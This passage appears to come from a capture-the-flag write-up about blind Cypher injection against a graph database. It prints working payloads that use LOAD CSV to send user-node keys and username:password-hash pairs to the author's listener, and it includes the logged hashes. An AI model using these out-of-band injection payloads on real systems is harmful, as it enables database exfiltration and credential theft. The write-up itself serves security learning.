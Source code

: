 
There are two hits at the server, `user` and `employee`:

    
    
    10.10.11.210 - - [24/Apr/2023 15:35:19] "GET /?l=user HTTP/1.1" 200 -
    10.10.11.210 - - [24/Apr/2023 15:35:19] "GET /?l=employee HTTP/1.1" 200 -
    

One neat thing about Cypher is that I can chain queries together, like in
[this example](https://pentester.land/blog/cypher-injection-
cheatsheet/#clause-composition):

    
    
    MATCH (john:Person {name: 'John'})
    MATCH (john)-[:FRIEND]->(friend)
    RETURN friend.name AS friendName
    

That is how [this example](https://pentester.land/blog/cypher-injection-
cheatsheet/#out-of-band--blind-using-load-csv) works to extract the keys for
`user`:

    
    
    ' match (u:user) with distinct keys(u) as k LOAD CSV FROM 'http://10.10.14.6/?'+k[0] as b return b//
    

It’s getting the user object, and then the keys for it (saved in `k`), and
then sending a query to me with `k[0]`:

    
    
    10.10.11.210 - - [24/Apr/2023 16:06:50] "GET /?password HTTP/1.1" 200 -
    

I am not able to find a way to get all the keys in one query, but I’ll up
`k[0]` to `k[1]` and get:

    
    
    10.10.11.210 - - [24/Apr/2023 16:07:34] "GET /?username HTTP/1.1" 200 -
    

`k[2]` doesn’t returns anything.

To read data, I’ll use the same pattern but this time generate a string for
each node:

    
    
    ' match (u:user) with distinct u.username + ":" + u.password  as d LOAD CSV FROM 'http://10.10.14.6/?'+d as a return a //
    

A single query sends back two requests:

    
    
    10.10.11.210 - - [24/Apr/2023 16:10:08] "GET /?admin:8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
    10.10.11.210 - - [24/Apr/2023 16:10:08] "GET /?john:a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
    

### su / SSH
